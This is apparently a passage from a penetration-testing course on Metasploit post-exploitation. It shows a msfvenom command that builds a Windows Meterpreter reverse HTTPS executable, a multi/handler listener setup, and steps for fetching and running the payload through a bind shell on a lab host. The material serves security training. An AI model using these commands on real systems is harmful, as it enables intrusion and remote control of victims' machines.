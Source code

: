 In this section, we explored executable payloads generated with msfvenom. We got familiar with how we can use msfvenom to generate executable files containing these payloads and how to set up multi/handler as listener for staged and non-staged payloads alike. Using msfvenom to generate executable files with various payloads and in numerous file types will assist us greatly in penetration tests.

### Performing Post-Exploitation with Metasploit

Once we gain access to a target machine, we can move on to the post-exploitation phase where we gather information, take steps to maintain our access, pivot to other machines, elevate our privileges, and so on.

The Metasploit Framework has several interesting post-exploitation features that can simplify many aspects of the process. In addition to the built-in Meterpreter commands, a number of post-exploitation MSF modules take an active session as an argument and perform post-exploitation operations on them.

In this Learning Unit, we'll explore these post-exploitation features and modules. We'll also perform pivoting with modules of the Metasploit Framework.
Core Meterpreter Post-Exploitation Features

In previous sections, we used the Meterpreter payload to navigate the file system, obtain information about the target system, and transfer files to and from the machine. Apart from the commands we already used, Meterpreter contains numerous post-exploitation features.

Let's explore some of these features. We should note that the Linux Meterpreter payload contains fewer post-exploitation features than the Windows one. Therefore, we'll explore these features on the Windows target ITWK01. Let's assume we already gained an initial foothold on the target system and deployed a bind shell as way of accessing the system.

To begin, we'll create an executable Windows binary with msfvenom containing a non-staged Meterpreter payload and name it met.exe.

```bash
kali@kali:~$ msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.4 LPORT=443 -f exe -o met.exe
```

After we set the payload and its options, we launch the previously activated multi/handler module in Metasploit.

```bash
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_https
payload => windows/x64/meterpreter_reverse_https

msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443

msf6 exploit(multi/handler) > run
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

[*] Started HTTPS reverse handler on https://192.168.119.4:443
```

Next, we start a Python3 web server to serve met.exe. Then, we connect to the bind shell on port 4444 on ITWK01. Once connected, we can download met.exe with PowerShell and start the Windows binary.
